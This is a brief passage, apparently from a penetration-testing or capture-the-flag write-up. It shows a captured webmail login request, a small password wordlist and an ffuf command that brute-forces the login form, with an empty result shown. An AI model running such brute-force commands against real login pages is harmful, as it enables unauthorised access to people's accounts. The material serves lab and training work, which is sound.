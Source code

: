**REQUEST PAYLOAD:**

```bash
_token=7LoSvpC3njsjummOZoQBaJFaIqSlkc1e&_task=login&_action=login&_timezone=America%2FNew_York&_url=&_user=admin&_pass=admin
```

> **Login Credential Brute Force Phase**
> 

`nano passwords.txt`

```bash
everest
montblanc
admin
chooyu
k2
admin
administrator
devs
```

![image.png](image%202.png)

`ffuf --request http_request.req --request-proto http -w wordpressuser.txt:USERFUZZ -w passwords.txt:PASSFUZZ -fr 'Login failed.' -mc 200,301,302,403 -t 30 -ic`

```bash
[REDACTED] - NOTHING
```

